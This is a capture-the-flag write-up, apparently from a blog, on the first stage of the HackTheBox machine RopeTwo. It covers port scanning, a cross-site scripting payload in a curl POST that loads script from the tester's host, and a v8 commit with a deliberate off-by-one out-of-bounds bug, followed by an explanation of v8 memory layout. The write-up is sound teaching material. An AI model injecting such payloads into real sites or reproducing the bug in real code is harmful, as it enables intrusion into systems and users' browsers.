







# Overview

I regularly play in CTF (Capture The Flag) games to keep my offensive security skills sharp and learn new techniques. Around June last year a new challenge appeared on [HackTheBox](https://hackthebox.eu) and it presented a significant challenge:



Much like the namesake's previous box ([Rope](https://www.hackthebox.eu/home/machines/profile/200)), this challenge called [RopeTwo](https://www.hackthebox.eu/home/machines/profile/260) also involved lots of binary exploitation, lots of research and lots of ~~crying yourself to sleep~~ dedication. The path from zero to root is a very long and complex one for this box, and I can honestly say it's the most difficult challenge I've ever seen on HackTheBox.


## Motivation

I thought I'd create a write-up of just the very first stage, exploiting a bug in the JavaScript engine used by Google Chrome - v8. As the challenge has now retired and no longer worth points on the leaderboard, I am permitted to publish information about the system, document its vulnerabilities, and share how to exploit it.

I hope that a deep dive into the v8 engine internals might be interesting to developers, engineers, penetration testers and browser engine connoisseurs alike. Writing it down also helps me to ensure my understanding is clear and accurate.

This document was originally written targeting softweare engineering and other technical employees at my company. If you're reading this, you're probably from an infosec background, so I apologise in advance for the verbose explanations.


## Sources and credits

I feel I must link to [a very relevant Phrack article on the topic](http://www.phrack.org/papers/jit_exploitation.html), and to [an article on a similar CTF challenge](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) that I referenced a lot while building my exploits. I even ended up talking with the author of the second article a bit over some of the finer details.

Furthermore, thanks to everyone who proofread a sneak preview of this, without your insight this would be much more muddled and confusing.

A quick disclaimer too, this is how I understand the inner workings of v8, I wouldn't take it as gospel truth - if you find errors, please correct me so that I can learn. 

To the webdevs out there... I apologize in advance for both my JavaScript skills and for poking fun at the language.


## TL;DR

Because this is a technical write-up, I don't have a TL;DR that does it justice, but I do have a pretty swell video at the end that shows the exploit in action. You could summarise the overall activity as "hacking Chrome because someone counted wrong", or perhaps even "using Chrome to open the calculator in the most complicated way imaginable", but it feels like small library of information was lost in the reduction.


# Understanding the Challenge

In all of these challenges, the goal is to remotely obtain root or Administrator access to the system. As you aren't exactly provided credentials, you need to learn about what services the system is running, what vulnerabilities they may present, and leverage those against it to gain access. You've got to think like a hacker and circumvent their security controls. Rarely can you reach directly to root, almost always you will find a way to access a low privilege account first, and from there you can attempt to escalate your priviliges.

The [HackTheBox](https://hackthebox.eu) platform provides a (relatively) safe learning playground, where you can test your skills against deliberately vulnerable systems without committing *Actual Cyber Crimes*. New challenges are introduced weekly, and there is a scoreboard that makes the experience somewhat gamified. The information card image at the top of this post shows this is worth 50 points - *if* you can get the flag (a random value) stored in `/root/root.txt`, and only readable by root, and submit it to the HackTheBox server for validation.

To get started, we need to understand what services the target is running. This begins the *enumeration* phase of testing, where we try to learn as much as we can about the remote system. The better our understanding is, the more likely it is we will be able to find a vulnerability that we can exploit (more often than not, a vulnerability is not exploitable for some reason - so while it technically may exist, perhaps there is a secondary security control that mitigates it. One example might be a publicly known bug that is only accessible behind authentication, and you don't have credentials).

One of the tasks we can do to enumerate the system is to perform a port scan. A well-known tool for this is [Nmap](https://nmap.org/). By using `-p-`, it will attempt a TCP handshake on every port, and report those that responded.

```console?comments=true
kali@kali:~/htb/ropetwo$ sudo nmap --min-rate 10000 -p- ropetwo.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-26 10:12 JST
Nmap scan report for 10.10.10.196
Host is up (0.019s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
8000/tcp open  http-alt
8060/tcp open  aero
9094/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 8.67 seconds
```

A bunch of open ports. Lets run the nmap safe scripts (`-sC`) and version enumeration scripts (`-sV`) options to load the [Nmap Scripting Engine](https://nmap.org/book/nse.html) and scan again. The NSE is what really brings power and flexibility to Nmap, there are a large number of versatile scripts provided that can perform tasks like version detection, vulnerability detection (and sometimes exploitation) and even backdoor detection (one notable example is the [Double Pulsar Detection Script](https://nmap.org/nsedoc/scripts/smb-double-pulsar-backdoor.html), which can reliably detect if a machine has been compromised by the NSA by exploiting the [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue) vulnerability).

In this case, loading the Nmap safe scripts will only run those that should not cause any issues for the remote target (like attempting to exploit anything detected as vulnerable).

```console?comments=true
kali@kali:~/htb/ropetwo$ sudo nmap -p 22,5000,8000,8060,9094 -sC -sV ropetwo.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-26 10:15 JST
Nmap scan report for 10.10.10.196
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 bc:d9:40:18:5e:2b:2b:12:3d:0b:1f:f3:6f:03:1b:8f (RSA)
|   256 15:23:6f:a6:d8:13:6e:c4:5b:c5:4a:6f:5a:6b:0b:4d (ECDSA)
|_  256 83:44:a5:b4:88:c2:e9:28:41:6a:da:9e:a8:3a:10:90 (ED25519)
5000/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.196:5000/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
8000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.7.3)
|_http-title: Home
8060/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 404 Not Found
9094/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.53 seconds
```

After running some deeper enumeration, it turns out port 5000 was not upnp, and port 8060 was not aero: they both appear to be web servers.

## TCP/22 - SSH

So, we have SSH on port 22, which will most likely only be helpful once we have credentials. It's not so out of date that there are any publicly known usable vulnerabilities, and we're probably not going to be able to brute force any credential pairs this side of the heat death of the universe. Let's move on.


## TCP/8000 - Python Web Server

Port 8000 presents a small website that is about v8 development. It offers a download link for a build of Chrome, and a contact us form. There's also a link to the same server on port 5000, which says we can "checkout the source code here". Perfect.


Looking closer at the contact us form, it seems we can submit messages to the site. We can't see the messages on the site anywhere, but when we send the POST request, we get a HTTP200 response and the page says "sent". So, we can guess the messages are sent somewhere?


Unfortunately, this didn't seem to work this time. The form also doesn't appear to be vulnerable to [SQL injection](https://xkcd.com/327/), but it does seem to be vulnerable to a basic [Cross-Site Scripting vulnerability](https://en.wikipedia.org/wiki/Cross-site_scripting) - submitting the HTML for an `<image>` or `<script>` tag seems to cause a visitor, somewhere, to request that URL. If we start our own server, we can see an incoming request triggered from our POST.

```console?comments=true
kali@kali:~/htb/ropetwo$ curl -v -X POST --data 'name=test&subject=test&content=<script src="http://10.10.16.173:8000/test.js"></script>' http://ropetwo.htb:8000/contact
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.10.10.196:8000...
* Connected to ropetwo.htb (10.10.10.196) port 8000 (#0)
> POST /contact HTTP/1.1
> Host: ropetwo.htb:8000
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 87
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 87 out of 87 bytes
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 4
< Server: Werkzeug/0.14.1 Python/3.7.3
< Date: Fri, 05 Feb 2021 03:20:48 GMT
<
* Closing connection 0
Sent
```

Submitting the above shows an incoming connection from the server (10.10.10.196) to our [netcat](http://netcat.sourceforge.net/) listener. Netcat here is simply being used to listen for an incoming connection on port 8000 (on any local interface) and verbosely print the output. The POST data above had an embedded URL to our IP address on port 8000, and we can see the incoming HTTP request to this from the server itself. We could set up Apache or nginx and watch the access logs too, but this is a handy one-liner.
```console?comments=true
kali@kali:~/htb/ropetwo$ nc -lvnp 8000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.10.196.
Ncat: Connection from 10.10.10.196:49188.
GET /test.js HTTP/1.1
Host: 10.10.16.173:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4157.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US

^C
```

Great, so we have an XSS (Cross Site Scripting vulnerability that we can exploit, and judging by the User-Agent header on the incoming request, a headless Chrome instance will render the HTML that we give it, and request scripts within it for execution after the DOM has loaded. At this stage, we will assume that those scripts will be executed.


## TCP/5000 - Gitlab

From the link above, we can see that the public v8 project is hosted on the server. Gitlab itself requires authentication, but if we follow the direct link to the repository from the Python web server, we can access the source code because it is set to allow public access.

There doesn't appear to be anything else worthwhile accessible in the Gitlab instance at this stage - the user that made the commit matches the creator of the system, but we cannot find any other repositories, snippets, buildchains, triggers or similar that may yield additional information. We *can* see that a commit has been added to the HEAD of the repository. So, we should clone the repository for analysis of the source code. It looks promising, but let's check the other ports before following Alice down into this rabbit hole of code analysis and possible disillusionment.


## TCP/8060 - nginx

There appeared to be nothing special about this server. There is no website, and no hidden files or useful information was found. It did not respond differently to different hostnames, subdomains, or request methods. Clicking around still didn't find any secrets. This meant it was time for the greatest hacking tool we know of.



But even that has failed us. There is simply nothing here that we can identify, and at this stage probably only serves to waste our time.


## TCP/9094 - unknown

The service listening on this port did not appear to respond to conventional request types either. Citrix NetScaler and Prometheus are both known for using this port, but both can also be easily identified, so it doesn't appear to be either.

It might be used for something later, but isn't helpful to us now in the grand scheme of \*steeples fingers\* hacking our way in.


## Planning, Plotting, Perhaps even Scheming

At this stage, we can start making some logical assumptions about a possible exploit chain - that is to say, the exploitable vulnerabilities that we can put together to reach our goal of obtaining access to the remote system. We can see the website is about v8 development, and there is a Gitlab instance with v8 source code with a new commit from the author of the challenge.

We can see that we have an XSS vulnerability, which is reliably executed by a Chrome instance that visits regularly. From the source IP of the incoming request, we can see it's coming from the server itself, so there's a user on it browsing the site. Based on the User-Agent header in the incoming request, we can probably assume that the Chrome instance is built using the modified v8 code, and that it matches the `chrome.tar.gz` download from port 8000. It's a little contrived, and that visiting user is probably automated, but it's a reliable architecture of presenting the challenge of attacking client-side software.

Normally, an XSS vulnerability is most commonly used to steal credentials, cookies, or impersonate the user. It is also typically most helpful in targeting users, not servers (ignoring that Node.js exists, which is widely considered to be a *Good Idea*) but fortunately we have a user on the server - so compromising the user would probably lead to compromising the server.

It seems reasonable to assume then (this is a difficult challenge after all) that we could write some JavaScript, send it to the site for the victim browser to open through the XSS vulnerability, and then... trigger code execution outside of the browser and gain persistence on the user's computer. How hard could it be? Browsers are, after all, designed to download and execute untrusted code from the Internet, and we use them to do that task hundreds of times a day.


Unfortunately, it turns out that you can't just hack something, you need to earn it or something. Looks like we need to do this the hard way.


# Vulnerability Discovery and Analysis

Since the other ports didn't really give us much more to go on, it looks like we really need to understand what the additional code added to v8 does, and determine if there are any vulnerabilities in it. If we can't find any, perhaps this is a giant annoying red herring, or we've missed something else in our enumeration.

Cloning the Git repository is straightforward enough:

```console?comments=true
kali@kali:~/htb/ropetwo$ git clone http://gitlab.rope2.htb:5000/root/v8
Cloning into 'v8'...
warning: redirecting to http://gitlab.rope2.htb:5000/root/v8.git/
remote: Enumerating objects: 654040, done.
remote: Counting objects: 100% (654040/654040), done.
remote: Compressing objects: 100% (133666/133666), done.
remote: Total 654040 (delta 515700), reused 653888 (delta 515553)
Receiving objects: 100% (654040/654040), 817.11 MiB | 251.00 KiB/s, done.
Resolving deltas: 100% (515700/515700), done.
Updating files: 100% (11939/11939), done.

kali@kali:~/htb/ropetwo/v8$ git log -1
commit 7410f6809dd33e317f11f39ceaebaba9a88ea970 (HEAD -> master, origin/master, origin/HEAD)
Author: r4j0x00 <rajvardhan1011@gmail.com>
Date:   Wed May 27 10:08:43 2020 +0530

    Added ArrayGetLastElement and ArraySetLastElement builtins
```

Standard JavaScript builtin functions provide the native functionality for data types in JavaScript, are implemented in V8 in various ways. Lately the builtins are usually implemented using an assembly-like language for speed optimisation, but in this case they were added in C++.

```console?comments=true
kali@kali:~/htb/ropetwo/v8$ git diff origin/master~1
diff --git a/src/builtins/builtins-array.cc b/src/builtins/builtins-array.cc
index 3c2fe33c5b..99f0271e03 100644
--- a/src/builtins/builtins-array.cc
+++ b/src/builtins/builtins-array.cc
@@ -297,6 +297,34 @@ BUILTIN(ArrayPrototypeFill) {
   return GenericArrayFill(isolate, receiver, value, start_index, end_index);
 }

+BUILTIN(ArrayGetLastElement)
+{
+       Handle<JSReceiver> receiver;
+       ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, receiver, Object::ToObject(isolate, args.receiver()));
+       Handle<JSArray> array = Handle<JSArray>::cast(receiver);
+       uint32_t len = static_cast<uint32_t>(array->length().Number());
+       FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
+       return *(isolate->factory()->NewNumber(elements.get_scalar(len)));
+}
+
+BUILTIN(ArraySetLastElement)
+{
+       Handle<JSReceiver> receiver;
+       ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, receiver, Object::ToObject(isolate, args.receiver()));
+       int arg_count = args.length();
+       if (arg_count != 2) // first value is always this
+       {
+               return ReadOnlyRoots(isolate).undefined_value();
+       }
+       Handle<JSArray> array = Handle<JSArray>::cast(receiver);
+       uint32_t len = static_cast<uint32_t>(array->length().Number());
+       Handle<Object> value;
+       ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, value, Object::ToNumber(isolate, args.atOrUndefined(isolate,1)));
+       FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
+       elements.set(len,value->Number());
+       return ReadOnlyRoots(isolate).undefined_value();
+}

[snip]
```

The commit adds two functions to the basic Array builtin object (`GetLastElement()` and `SetLastElement()`). This is the mechanism that provides the core functions you're used to using on an Array in JavaScript - `length`, `indexOf`, etc. So in theory, you could use them in JavaScript like this:

```javascript
d8> var hackers = ["zerocool", "acidburn", "cerealkiller"];
undefined
d8> hackers.length
3
d8> var last_item = hackers.GetLastElement()
undefined
d8> hackers.SetLastElement("phantomphreak")
```

And get the value of the last element. There's a slightly subtle bug made twice in this commit, but if you think about the most common errors with arrays, you'll probably spot it. See if you can see what's wrong.

Take a close look at the return statement of `GetLastElement()`:

```cpp
+       return *(isolate->factory()->NewNumber(elements.get_scalar(len)));
```

And this line just above it:

```cpp
+       uint32_t len = static_cast<uint32_t>(array->length().Number());
```

If you guessed an off-by-one-error, you'd be right! Ten points to Gryffindor. The author forgot to subtract one from the length to account for this. As everybody knows, there are two hard problems in computer science: cache invalidation, naming things, and off-by-one errors.

Arrays in C++ are zero-indexed, however here we can clearly see that the length of the array (one-indexed) is used to get and set the last element. In effect, this bug means that we can (ab)use these two functions to read or write exactly one element past the end of the array.

So what? How much damage could an off-by-one error really do? Surely it would immediately die in a fire of nasty access violations and scary tracebacks, right? To understand, first we need to dive into the memory layout of JavaScript objects. Understanding what happens in memory when you create an Array in JavaScript will be critical to getting anywhere.


## Under the hood and inside the engine

When you create an Array in JavaScript, the system actually creates a bunch of data structures in memory. The three in particular we'll look at are a JSArray object, a FixedArray object, and a Map. The JSArray object contains metadata such as the type and length of the array, and pointers to other data structures (the Elements Pointer for example, points to the memory address of the corresponding FixedArray object). The FixedArray for an array of Integers has a small header and then contains the items stored in the array, indexed from zero - but this structure can change, depending on the types of items stored within the array. Both the JSArray and FixedArray will have a pointer to a Map.

To know how to find data within a FixedArray type, v8 uses another object type known as a Map. This defines the overall structure of the FixedArray, and tells the JavaScript engine what kind of data to expect (the dynamic type, ie: string, Uint8Array, a pointer to another object, etc), and how to reference the arrays indices. It defines the size of each index, so you can multiply it by the index you are looking for to find the item offset from the starting memory address of the Elements array. As you can imagine, if your array only contains 32-bit integers, it can use a FixedArray with only enough space for an integer in each index, but this structure would look different if your array contained 64-bit floats.

To summarise and simplify, the JSArray object holds metadata, and that points to a FixedArray of your array items, and both have a pointer to the structure-defining Map. One other handy thing to know about maps, is that if two objects have the same structure, they will usually point to the same map.

Speaking of pointers, there's another concept we need to understand too, because it will be important later. V8 uses 'tagged pointers' - that is, the value of the pointer, which is a memory address, has additional data embedded within it. To put this simply, because the compiler will do its best to ensure that objects in memory are aligned to a whole word, the least significant bits of a memory address are unused - they should always hold a zero.

A 'word' in this context, means the natural length of data used by a processor. On a 32-bit system, a 'word' is 32 bits (or four bytes) but on a 64-bit system a word is eight bytes. Not to be confused with the *Microsoft Special Way Of Doing Things*, where the Windows API refuses to admit a word means anything other than 16 bits. The Windows API uses the term DWORD (or Double Word) for something 32 bits long, and QWORD for something 64 bits long and a DQWORD (yes, Double Quad Word) is 128 bits long.

To visualise a nice small, friendly pointer of 0xF4AC in binary, we can see the most and least significant bits:



```
1111 0100 1010 1100 = 0xF4AC
^                 ^
MSB               LSB
```

Because a memory address *should* always be aligned to a word size appropriate for the CPU bit-size, the least significant bits should always be 0. This alignment is done for speed, because the processor will always read at its word size (four bytes for a 32-bit, eight bytes for a 64-bit, etc.) It's just faster for the processor to read just one word than a byte that straddles two words. Misaligned bytes can also lead to poor effectiveness of caching. This of course means, if we know those bytes are always zero, but we have to read them anyway, these bits can be masked out and used to store "tags", and are merely treated as zeroed when attempting to seek to the address the 'tagged' pointer points to. Plainly speaking, any number evenly divisible by the word size in bytes will always have zeros in the least significant bits when represented in binary.

On a 64-bit system, the v8 engine can now also compress pointers. While a 'normal' double will consume 64 bits to represent a floating point value, a pointer is only stored as a 32 bit value (because the upper 32 bits fall within the virtual memory address space of the parent process, and will remain the same for the lifetime of the process). However, now v8 has a problem: how does it tell the difference between a 32-bit pointer, and a 32-bit integer (also known as 'immediate small integers')? Yep, tagged pointers! All 32-bit pointers are 'tagged' with the lowest bit set to 1 (so, you must subtract one when inspecting pointers in a debugger to get the true address) and all 32-bit integers are actually only 31-bit integers shifted up by one bit (so the lowest bit, or tag, is always 0). As such, attempting to create a 32-bit integer will have it stored as a 64-bit double instead.

To visually demonstrate, the pointer of 0xF4AC when tagged, appears to be 0x4FAD:

```
1111 0100 1010 1101 = 0x4FAD = pointer to 0xF4AC
^                 ^-- tagged! Ignore this bit in the address we seek to.
MSB               LSB
```

But if 0xF4AC was supposed to be an integer, it would be stored 'plainly':

```
1111 0100 1010 1100 = 0xF4AC = 62,636 in decimal
^                 ^-- not tagged, this is an integer!
MSB               LSB
```

This might seem inefficient and complicated at first, but prior to version 8.0, all 32-bit SMIs and pointers all consumed a 64-bit word on a 64-bit system - so it's actually quite an optimisation for all pointers that will fit within 31 bits.

Having wrapped our head around these concepts and our hands around each other in irritable exasperation, it's time to get our computer set up for messing about with it all.


## Getting set up for debugging

In order to get anywhere with this, we're going to need to be able to set up a debugger so that we can inspect the memory layout while we create objects in JavaScript. Instead of keeping a ThreadRipper warm compiling all of Chromium and v8, there's a better option: we can build d8 instead, which is the JavaScript REPL (Read, Eval, Print, Loop) interpreter. You can think of it like the console in a browser Developer Tools, as a binary, with no DOM to interact with. It's the same v8 engine, and will include the same code and our modification, but we can run it directly from the command line. The primary reason for this is not really reducing the once-off compile time, but rather we can easily run the REPL inside a debugger and not have to chase it down within Chrome's multitude of threads. It is also important to build the debug version, since it gives us significantly more verbose information during debugging.

So, let's go get d8 and the tools necessary to compile it. Fortunately, the Chromium project makes it [pretty clear](https://chromium.googlesource.com/external/github.com/v8/v8.wiki/+/34ff0fc8583edcb713e98a910c6ab418718db896/Building-with-GN.md) on how to compile everything. We need some build tools to build the source first.

```console?comments=true
kali@kali:~/htb/ropetwo$ git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
Cloning into 'depot_tools'...
remote: Counting objects: 7, done10 MiB ...Counting objects: 1
remote: Finding sources: 100% (7/7)
remote: Total 41815 (delta 28509), reused 41813 (delta 28509)
Receiving objects: 100% (41815/41815), 36.12 MiB | 14.65 MiB/s, done.
Resolving deltas: 100% (28509/28509), done.
```

Then we can get the modified v8 from the target server:
```console?comments=true
kali@kali:~/htb/ropetwo$ git clone http://gitlab.rope2.htb:5000/root/v8
Cloning into 'v8'...
warning: redirecting to http://gitlab.rope2.htb:5000/root/v8.git/
remote: Enumerating objects: 654040, done.
remote: Counting objects: 100% (654040/654040), done.
remote: Compressing objects: 100% (133666/133666), done.
remote: Total 654040 (delta 515700), reused 653888 (delta 515553)
Receiving objects: 100% (654040/654040), 817.11 MiB | 251.00 KiB/s, done.
Resolving deltas: 100% (515700/515700), done.
Updating files: 100% (11939/11939), done.
```

Then set up all the dependencies for the toolchain. We need to pass the `--unsupported` flag to `install-build-deps.sh` because we are building on [Kali Linux](https://www.kali.org/), and the script only officially supports Ubuntu and Debian. Fortunately, modern Kali is a derivative of Debian, and it was easy to resolve a few minor package dependency issues.
